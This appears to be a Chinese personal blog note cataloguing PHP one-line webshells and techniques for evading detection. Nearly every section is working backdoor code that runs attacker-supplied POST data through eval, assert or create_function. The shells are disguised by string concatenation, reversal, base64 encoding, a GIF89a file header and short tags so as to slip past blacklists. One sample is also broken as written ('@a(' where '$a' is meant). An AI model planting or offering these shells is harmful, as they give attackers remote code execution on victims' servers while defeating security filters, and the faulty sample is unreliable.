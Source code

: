 +++
title = 'php一句话木马以及相关免杀'
date = 2024-10-13T15:27:04+08:00
draft = false
categories = ['CS', 'sec']
+++


## 基础

`<?php @eval($_POST['shell']);?>`
- @ 防止报错
- eval() 把字符串当作php代码执行
- `$_POST['xyz']` 以post方式获取名为xyz的变量

使用：访问这句木马所在的php文件，以post方式传入 xyz = phpinfo()
- 网页会（执行`phpinfo()` 这个函数）返回网页php的版本信息

---
## 变形

### assert

```php
<?php
$a = "assert";
$a(@$_POST['shell']);
?>
```

- 区别在于 `assert` 函数在执行给定代码时，要求代码的结果为布尔类型，而 `eval` 函数则可以执行任意有效的 PHP 代码

### 字符变形

使用字符串拼接、大小写混淆、字符串逆序组合而成

```php
<?php
$a="TR"."Es"."sA";  
$b=strtolower($a);  
$c=strrev($b);  
@$c($_POST['shell']);  
?>

# phpinfo();
<?php
$a="of"."NiP"."Hp";  
$b=strtolower($a);  
$c=strrev($b);  
@$c();  
?>
```

- `strtolower()` 是 PHP 中的一个内置函数，用于将字符串转换为小写字母
- `strrev()` 字符串反转

注意，字符变形仅仅用于函数名，不能写成 `$a=")(of"."NiP"."Hp";` ，不能把括号一起放入。

用解析出来的变量替代函数名，本质上只是**字符的替换**，绕过黑名单检测，最后“触发”函数的执行需要依赖括号 `()` 。假如括号也写在字符变形之中，最终由变量替换产生一串 `phpinfo()` 这样的**字符串**，php 显然不会执行这个**字符串**，所以必须把括号放在外面。



### 自定义函数

```php
<?php  
function fun($a){  
    @eval($a);  
}  
@fun($_POST['shell']);  
?>
```


### create_function

```php
<?php 
$fun = create_function('',$_POST['shell']);
$fun();
?>
```
- 用法：`$addFunction = create_function('参数', '函数体');`


### base64_decode 函数

```php
<?php   
$a=base64_decode("YXNzZXJ0");  
@a($_POST['shell']);  
?>
```

`YXNzZXJ0`是assert的base64编码，`base64_decode()`是base64解密函数


### 绕过`<?`

`GIF89a? <script language="php">eval($_REQUEST[123])</script> `
- `GIF89a`: 这是 GIF 图像文件的文件头标识符
- 剩余就是正常的html语言

---
## 短标签

![](../../../img/Pasted%20image%2020241013143113.png)

short_open_tag 开启以后，可以使用 PHP 的短标签：`<? ?>` 
- 绕过黑名单有 `php`  的情况




